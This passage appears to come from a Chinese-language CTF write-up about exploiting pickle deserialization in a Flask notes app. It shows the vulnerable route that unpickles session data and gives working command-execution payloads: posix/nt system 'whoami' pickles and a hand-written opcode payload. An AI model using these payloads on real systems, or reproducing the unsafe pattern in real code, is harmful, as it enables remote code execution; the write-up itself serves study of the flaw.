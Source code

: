 ```python
@app.route('/<path:note_id>', methods=['GET'])
def view_note(note_id):
    notes = session.get('notes')
    if not notes:
        return render_template('note.html', msg='You have no notes')
    
    note_raw = notes.get(note_id)
    if not note_raw:
        return render_template('note.html', msg='This note does not exist')
    
    note = pickle.loads(note_raw)
    return render_template('note.html', note_id=note_id, note_name=note.name, note_content=note.content)
```

控制 notes 为我们的恶意 pickle 序列化数据即可

这里有几个注意点

首先, 如果你使用 `pickle.dumps()` 来生成 payload, 那么你得知道不同操作系统生成的 pickle 序列化数据是有区别的

参考: https://xz.aliyun.com/t/7436

```python
# Linux (注意 posix)
b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'

# Windows (注意 nt)
b'cnt\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
```

在 Windows 上生成的 pickle payload 无法在 Linux 上运行

当然如果手动去构造 opcode, 那是没有这个问题的, 比如这段 opcode

```python
b'''cos
system
(S'whoami'
tR.'''
```

其次, 很多人过来问为什么构造了恶意 pickle 序列化数据发送之后服务器报错 500, 其实这个是正常现象, 没啥问题

上面代码在 `pickle.loads()` 之后得到 note 对象, 然后访问它的 id, name, content 属性, 即 `note.id`, `note.name`, `note.content`

如果是正常的 pickle 数据, 那么服务器就会显示正常的 note 内容

如果是恶意的 pickle 数据, 那么 `pickle.loads()` 返回的就是通过 `__reduce__` 方法调用的某个函数所返回的结果, 根本就没有 id, name, content 这些属性, 当然就会报错了

```python
import pickle

class A:
  def __reduce__(self):
    return (str, ("123", ))
  
s = pickle.dumps(A(), protocol=0)
obj = pickle.loads(s)
print(obj) # 123
```
